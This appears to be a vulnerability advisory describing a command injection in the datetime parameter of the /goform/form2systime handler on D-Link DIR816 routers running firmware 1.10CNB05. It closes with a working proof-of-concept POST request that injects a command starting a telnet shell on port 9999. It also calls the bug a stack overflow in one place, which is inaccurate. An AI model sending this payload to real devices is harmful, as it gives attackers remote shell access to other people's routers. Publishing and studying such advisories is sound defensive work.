

# DLink DIR816 command injection vulnerabilities
## Affected Version
DLink DIR816 1.10CNB05
## Vulnerability Description
In DLink DIR816 routers with firmware version 1.10CNB05, the datetime parameter of route /goform/form2systime has a command injection vulnerabilities, which can lead to remote arbitrary code execution.
## Vulnerability Detail
There is a stack overflow vulnerability in the sub_4272A4 function in DLink DIR816 firmware 1.10CNB05. The function sub_4272A4, registered to handle the "form2systime.cgi" web form, accepts the datetime parameter from a Web request via the variable Var. This untrusted input is directly concatenated into a shell command string and executed via the statement doSystem((int)"date -s \"%s\"", Var);, leading to an OS Command Injection vulnerability. Although the function performs a basic check to ensure the input contains both a colon (':') and a hyphen ('-'), these characters are easily included in a malicious payload. An attacker can use shell metacharacters (such as ;, &, or |) within the datetime field to execute arbitrary system commands with web server privileges.


## Poc
```py
POST /goform/form2systime HTTP/1.1
Host: 192.168.1.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: curShow=

datetime=2026-01-11 10:00:00"; /usr/sbin/telnetd -l /bin/sh -p 9999; #&tokenid=1936217320
```
